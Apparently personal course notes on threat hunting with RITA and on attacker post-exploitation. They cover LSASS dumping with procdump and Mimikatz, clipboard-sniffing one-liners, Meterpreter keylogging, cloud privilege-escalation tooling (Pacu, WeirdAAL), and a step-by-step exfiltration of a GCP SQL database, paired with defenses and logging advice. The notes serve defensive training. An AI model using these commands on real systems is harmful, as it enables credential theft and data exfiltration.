

Examine specific RITA functions directly:

```bash title="Show beacon analysis"
rita show-beacons -H mynetwork
```

The `-H` flag returns a human-readable table.

### Beacon Analysis

RITA is a threat hunting tool intended to guide analysts — unlike IDS, which flags specific attacks. RITA doesn't identify specific C2 frameworks or threat groups.

:::note
Beaconing is a characteristic of C2 frameworks where a compromised system periodically reaches out to the control server, waiting for orders (file downloads, command execution, etc.). Many C2 frameworks use regular beacon intervals — every 1, 5, or even 10 minutes.
:::

RITA identifies beaconing by looking for a Score value near or at 1, indicating regular beacon timing over the traffic duration. A score of 1 means perfect repetition of packet activity between source and destination.

### Long Connections

Normally, client devices connect to another endpoint, exchange data, then disconnect. However, some C2 frameworks like Meterpreter maintain TCP sessions for extended periods.

```bash title="Show long-duration connections"
rita show-long-connections -H mynetwork | head -15
```

This reveals internal hosts with very long TCP/443 connections to external targets.



### DNS Analysis

RITA also analyzes DNS to reveal DNS tunneling tools like DNSCat2. The output shows query domains, the number of unique subdomains, and query frequency. Normally, subdomains for a domain are relatively few (at most hundreds). DNS tunneling tools generate many unique subdomains to avoid DNS caching.



### RITA as a Threat Hunting Tool

RITA guides analysts rather than providing a definitive list of compromised hosts. Use it as a starting point for deeper investigation: take the IPs you find, conduct OSINT, use tools like Shodan. You can blacklist or whitelist hosts in the `config.yaml` file.



## Data Collection

For many attackers, data collection is the ultimate goal — stealing secrets, intellectual property, financial records, credit cards, and more.

### Linux Password Harvesting

Beyond the password hashes in `/etc/shadow`, attackers find passwords disclosed elsewhere on the filesystem or in command-line arguments. Common locations include:

- `.bash_history` files (users may supply passwords as command-line arguments, e.g., `mysql -u root -prootDBpassword`)
- Process listings
- Filesystem locations

Most of these locations require root privilege.



### Sudo Privileges

One escalation opportunity is examining sudo configuration. The `sudo` command lets users run commands with other users' privileges (often root). Check allocated privileges:

```bash title="Check user's sudo privileges"
sudo -l
```

For example, if user `minyawy` is permitted to run the GNU debugger as root, this is an escalation opportunity since GDB has a shell command that grants a sudo shell.

### Windows Passwords: Mimikatz

:::tip
Mimikatz is a well-known tool for extracting passwords and hashes from Windows. However, it doesn't need to run on the victim — it can retrieve password info from process memory.
:::

Use Sysinternals' `Procdump` to retrieve an LSASS memory dump:

```bash title="Dump LSASS process memory"
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

Then use Mimikatz to extract passwords from the dump:

```bash title="Extract passwords from LSASS dump"
sekurlsa::minidump lsass.dmp
```

This avoids running Mimikatz on the victim but requires transferring the larger dump file.

### Password Managers and Clipboard Access

Password managers provide security benefits but have a common vulnerability: clipboard access. Any process can read and manipulate clipboard data on Windows and macOS.

Attackers can monitor the clipboard and exfiltrate copied passwords:

```bash title="Monitor clipboard on Windows (PowerShell)"
$x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { Write-Host $y; $x=$y } }
```

```bash title="Monitor clipboard on macOS"
x=""; while true; do y=`pbpaste`; if [ "$x" != "$y" ] ; then echo $y; x=$y; fi; done
```

### Meterpreter Keystroke Logging

:::note
Meterpreter includes built-in keystroke logging. Once a session is established, start capturing:
:::

```bash title="Start keystroke capture"
keyscan_start
```

Capture continues for all users (including RDP sessions) until:

```bash title="Stop keystroke capture"
keyscan_stop
```

Examine the log anytime:

```bash title="Display captured keystrokes"
keyscan_dump
```



### Defenses

Combine network filtering with monitoring for unauthorized access attempts. Network monitoring tools and RITA can reveal C2 indicators. Endpoint security tools with application allowlists limit unauthorized tool execution. SRUM data can characterize data transfer tools by application name, revealing the extent and possible sources of exfiltrated data.



## Cloud Spotlight: Cloud Post-Exploitation

Assuming the attacker has stolen AWS credentials, they begin by collecting as much enumeration data as possible. The table below shows commonly used reconnaissance commands:

| Command | Purpose |
| --- | --- |
| `aws sts get-caller-identity` | Basic access test; identify username |
| `aws ec2 describe-instances` | Enumerate EC2 instances |
| `aws s3 ls` | List S3 buckets |
| `aws lambda list-functions` | List Lambda functions |
| `aws iam list-roles` | List roles and associated permissions |
| `aws iam list-users` | List user accounts (privilege escalation targets) |
| `aws logs describe-log-groups` | Enumerate log groups (what's being monitored?) |

AWS STS (Security Token Service) allows users to request temporary IAM credentials with limited privileges. Azure has similar functionality with `az` commands, and Google with `gcloud` and `gsutil`.

### WeirdAAL Enumeration

:::tip
While attackers can run reconnaissance commands manually, WeirdAAL automates AWS privilege enumeration and cloud asset discovery. It enumerates AWS access privileges using available functions or brute-forces access attempts for known permissions to discover opportunities.
:::

It's noisy if CloudTrail failed-access logging is enabled. Get all available modules:

```bash title="List WeirdAAL modules"
python3 weirdAAL.py -l
```

Run the `recon_all` module for comprehensive reconnaissance:

```bash title="Run WeirdAAL reconnaissance"
python3 weirdAAL.py -m recon_all
```

### AzureStealth

Unlike WeirdAAL, AzureStealth focuses on finding shadow admin accounts — accounts with administrative capabilities without being explicitly authorized. First, import the module in PowerShell:

```bash title="Import AzureStealth module"
Import-Module .\AzureStealth.ps1 -Force
```

Scan for shadow admins:

```bash title="Scan for shadow admin accounts"
Scan-AzureAdmins
```

Results are saved in a ZIP file containing CSV files with Azure domains, enumerated users, and shadow admin accounts.

### GCP Enumerate Permissions

For Google Compute environments, use `enumerate_member_permissions.py` from Rhino Labs. First, authenticate and get an access token:

```bash title="Authenticate with Google Cloud"
gcloud auth login
```

```bash title="Get Google Cloud access token"
gcloud auth print-access-token
```

Run the script against a project:

```bash title="Enumerate GCP permissions"
./enumerate_member_permissions.py -p cryptic-woods-298720
```

The script brute-forces available permissions and saves results to JSON.

### Privilege Escalation Attacks

After logging in with stolen credentials, attackers aim to escalate privileges to gain root access. For example, in AWS, if a help desk account has `iam:PutUserPolicy`, they can grant anyone root-level access. The goal is to enumerate all privileges and identify escalation opportunities.

### Pacu: AWS Interrogation and Attack Framework

:::tip
Pacu is an AWS interrogation and attack framework (later expanded to Azure and Google Cloud) with modular exploits, privilege escalation attacks, and data exfiltration capabilities. Useful modules include `iam__enum_permissions` and `iam__privesc_scan`.
:::

Start Pacu:

```bash title="Run Pacu CLI"
python3 cli.py
```

Import AWS credentials by profile name, then enumerate:

```bash title="Enumerate IAM permissions with Pacu"
run iam__enum_permissions
```

Scan for privilege escalation opportunities:

```bash title="Scan for IAM privilege escalation"
run iam__privesc_scan
```

Pacu can automatically identify and exploit policy weaknesses — for example, finding `PutUserPolicy` privileges and using them to create an inline policy granting administrator access.

After escalation, attackers access cloud storage (S3 buckets, Azure containers, GCP buckets), databases, key storage services, VMs, backups, and snapshots. From admin access, they can also access Google Drive, OneDrive, or email resources. Some resources allow direct download; others (VM snapshots, serverless functions, key storage) require intermediate storage transfer to a bucket, then retrieval — which creates detection opportunities for defenders.

**Example: Exfiltrating a Google Cloud SQL Database**

1. Identify database targets:
```bash title="List GCP SQL instances"
gcloud sql instances list
```

2. Enumerate schemas for target database `fm-research`:
```bash title="Describe GCP SQL instance"
gcloud sql instances describe fm-research
```

3. Create an intermediate bucket:
```bash title="Create GCP storage bucket"
gsutil mb gs://sqlexfil
```

4. Grant write access:
```bash title="Grant bucket write access"
gsutil acl ch -u jmerckle@falsimentis.com:WRITE gs://sqlexfil
```

5. Export the database:
```bash title="Export SQL database to GCP bucket"
gcloud sql export sql fm-research --database=ai gs://sqlexfil/sqldump.gz
```

6. Download the backup:
```bash title="Download database backup"
gsutil cp gs://sqlexfil/sqldump.gz .
```

:::note
The attacker uses only official Google tools, making detection more difficult. Defenders can identify such attacks using Google Cloud audit logs.
:::

### Microsoft 365 Compliance Search

If attackers escalate to the eDiscovery Manager role (Administrator, compliance officer, or eDiscovery manager groups), they can access O365 compliance search — a feature for auditors to review data handling. This grants access to all O365 resources: Outlook, Teams, Skype, SharePoint, OneDrive, etc. Attackers can search by file name, type, and email keywords.

Google offers similar functionality through Google Takeout.

### Defenses

Three key defensive principles:

**Understand Your Infrastructure:** What cloud assets exist? How are permissions allocated? What policies govern access?

**Audit Permissions and Policies:** Are policies sufficiently restrictive? Do users have limited access? Is the Principle of Least Privilege (POLP) applied?

**Verify and Monitor Asset Logging:** Are access and change events logged and monitored to detect unauthorized use?

**Recommended Tools:**

**AWS: CloudMapper** — an open-source visualization and auditing tool. Requires credentials with at least `job-function/ViewOnlyAccess` and a JSON config file.

**Azure: AzViz** — an open-source PowerShell module for enumerating and visualizing Azure deployments.

**Google Cloud: Network Topology tool** — visualizes VPC topology.

**ScoutSuite (AWS, GCP, Azure)** — a dedicated vulnerability assessment tool for cloud environments. Generates HTML and JSON reports; premium versions include additional scanning features.

**Cloud Logging Best Practices:**

Store logs in a bucket owned by a separate cloud account. Use a write-only bucket — attackers with high privileges can alter locally-stored logs. Cloud logging should include:

- Netflow-style logs (source/destination, port, protocol, packet count, byte count, start/finish time)
- Cloud storage access logs (timestamp, requester IP, action, response, data size)
- All API access attempts for sensitive resources
- Failed API request messages for non-sensitive resources

Use cloud-native monitoring: Amazon Detective, Azure Sentinel, and GCP Security Command Center integrate with their logging data for threat hunting and incident response.

Retain logs for 30–90 days, using inexpensive storage like Amazon Glacier, Azure Archive/Cool Storage, or Google Cloud Storage Archive.



**الحمد لله done**